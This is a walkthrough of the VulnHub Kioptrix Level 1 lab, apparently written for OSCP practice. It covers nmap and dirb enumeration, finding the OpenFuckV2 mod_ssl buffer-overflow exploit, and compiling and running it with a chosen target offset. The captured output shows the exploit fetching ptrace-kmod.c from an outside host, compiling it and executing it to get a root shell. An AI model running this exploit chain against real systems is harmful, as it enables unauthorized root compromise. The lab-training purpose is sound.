

# VulnHub: Kioptrix Level 1

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) is one of the most easiest machines on VulnHub. It is usually the machine with which a large number of people get started with for their OSCP preparations.

Solving this machine is really easy.


## Initial Enumeration

The first and foremost thing that we must do is start an `nmap` scan to check the services running on the machine and meanwhile check if there is some website is hosted by accessing the IP address via web browser.



All that can be seen that an apache test page when we access the login page. The `nmap` results reveal a lot many things

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ sudo nmap -sS -p- -T4 192.168.0.182 | tee open_ports
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 02:07 EDT
Nmap scan report for 192.168.0.182
Host is up (0.0038s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:86:F9:D6 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 25.71 seconds
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ sudo nmap -sC -sV -O -p22,80,111,139,443,32768 192.168.0.182 | tee port_details
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 02:09 EDT
Nmap scan report for 192.168.0.182
Host is up (0.0022s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: TMYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_ssl-date: 2021-04-27T10:10:38+00:00; +4h00m00s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:86:F9:D6 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_clock-skew: 3h59m59s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.08 seconds
```

It can be seen that ports 22, 80, 111, 139, 443 and 32768 are open on the machine. As apache is running on port 80, we can start a directory traversal attack against the machine to find some hidden directory.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ dirb http://192.168.0.182                                                                                  130 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Apr 27 02:15:40 2021
URL_BASE: http://192.168.0.182/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.0.182/ ----
+ http://192.168.0.182/~operator (CODE:403|SIZE:273)                                                                
+ http://192.168.0.182/~root (CODE:403|SIZE:269)                                                                    
+ http://192.168.0.182/cgi-bin/ (CODE:403|SIZE:272)                                                                 
+ http://192.168.0.182/index.html (CODE:200|SIZE:2890)                                                              
==> DIRECTORY: http://192.168.0.182/manual/                                                                         
==> DIRECTORY: http://192.168.0.182/mrtg/                                                                           
==> DIRECTORY: http://192.168.0.182/usage/                                                                          
                                                                                                                    
---- Entering directory: http://192.168.0.182/manual/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                    
---- Entering directory: http://192.168.0.182/mrtg/ ----
+ http://192.168.0.182/mrtg/index.html (CODE:200|SIZE:17318)                                                        
                                                                                                                    
---- Entering directory: http://192.168.0.182/usage/ ----
+ http://192.168.0.182/usage/index.html (CODE:200|SIZE:3704)                                                        
                                                                                                                    
-----------------
END_TIME: Tue Apr 27 02:16:19 2021
DOWNLOADED: 13836 - FOUND: 6

```

We can go through all the detected directories but can't find any useful information or entry point to gain access to the machine.

## Gaining Foothold

The next thing that we can do is start looking for vulnerabilities related to services running on the machine. 

We can see an exploit for `openssh 2.9p2` but does not appear to be exploited easily. The next thing that we can look for is `Apache 1.3.20`. 

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ searchsploit apache 1.3.20
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                     | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                   | php/remote/29316.py
Apache 1.3.20 (Win32) - 'PHP.exe' Remote File Disclosure                            | windows/remote/21204.txt
Apache 1.3.6/1.3.9/1.3.11/1.3.12/1.3.20 - Root Directory Access                     | windows/remote/19975.pl
Apache 1.3.x < 2.0.48 mod_userdir - Remote Users Disclosure                         | linux/remote/132.c
Apache < 1.3.37/2.0.59/2.2.3 mod_rewrite - Remote Overflow                          | multiple/remote/2237.sh
Apache < 2.0.64 / < 2.2.21 mod_setenvif - Integer Overflow                          | linux/dos/41769.txt
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                    | linux/webapps/42745.py
Apache CouchDB < 2.1.0 - Remote Code Execution                                      | linux/webapps/44913.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                 | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)          | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)          | unix/remote/47080.c
Apache Struts < 1.3.10 / < 2.3.16.2 - ClassLoader Manipulation Remote Code Executio | multiple/remote/41690.rb
Apache Struts < 2.2.0 - Remote Command Execution (Metasploit)                       | multiple/remote/17691.rb
Apache Tika-server < 1.18 - Command Injection                                       | windows/remote/46540.py
Apache Tomcat < 5.5.17 - Remote Directory Listing                                   | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                 | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                           | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass /  | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass /  | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                        | linux/dos/36906.txt
Oracle Java JDK/JRE < 1.8.0.131 / Apache Xerces 2.11.0 - 'PDF/Docx' Server Side Den | php/dos/44057.md
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution    | linux/remote/34.pl
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```

Here, we can see that this version of Apache is vulnerable to `OpenFuckV2`. So, we can copy that code, compile it and try to gain access to the machine.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ cp /usr/share/exploitdb/exploits/unix/remote/47080.c openfuckV2.c

```

We can check if there are any specific instruction specified to run the script

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ more openfuckV2.c

/*
 * OF version r00t VERY PRIV8 spabam
 * Version: v3.0.4 
 * Requirements: libssl-dev    ( apt-get install libssl-dev )
 * Compile with: gcc -o OpenFuck OpenFuck.c -lcrypto
 * objdump -R /usr/sbin/httpd|grep free to get more targets
 * #hackarena irc.brasnet.org
 * Note: if required, host ptrace and replace wget target
 */

```

Here, it has been mentioned that we need to install `libssl-dev` before running the code.

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ sudo apt install libssl-dev  
```

> In case if this does not install the requirement then first run the command `sudo apt update --fix-missing`

Once the requirement is installed, we need to compile the C code

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ gcc -o OpenFuck openfuckV2.c -lcrypto
```

Now, we can run the code simple by entering the command

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ ./OpenFuck
```

This would return a list of codes for various Linux version (Apache versions) and we need to select the one appropriate for us. We know that the machine is running on RedHat and has Apache version 1.3.20. So, from that list we need to select the code for entry having similar configurations.

As per our requirements, we can find two codes

```bash
	0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
	0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
```

So, we can try both one by one.

````bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$                                                                                                                 1./OpenFuck 0x6a 192.168.0.182         

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fc080
Ready to send shellcode
Spawning shell...
Good Bye!
````

So, the one with `0x6a` does not appear to be working so we can try the code `0x6b`.

```bash
──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv1]
└─$ ./OpenFuck 0x6b 192.168.0.182

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80fa068
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--08:20:29--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @ 547.01 KB/s

08:20:30 (348.10 KB/s) - `ptrace-kmod.c' saved [3921/3921]

gcc: file path prefix `/usr/bin' never used
[+] Attached to 6316
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...


id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root

```

And there we get direct access as `root`!

## Some Key Points to Take Away

1. Always look for vulnerabilities associated with various services running on the machine.


## References

1. VulnHub - Kioptrix Level 1: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/
2. OpenFuckV2: https://www.exploit-db.com/exploits/47080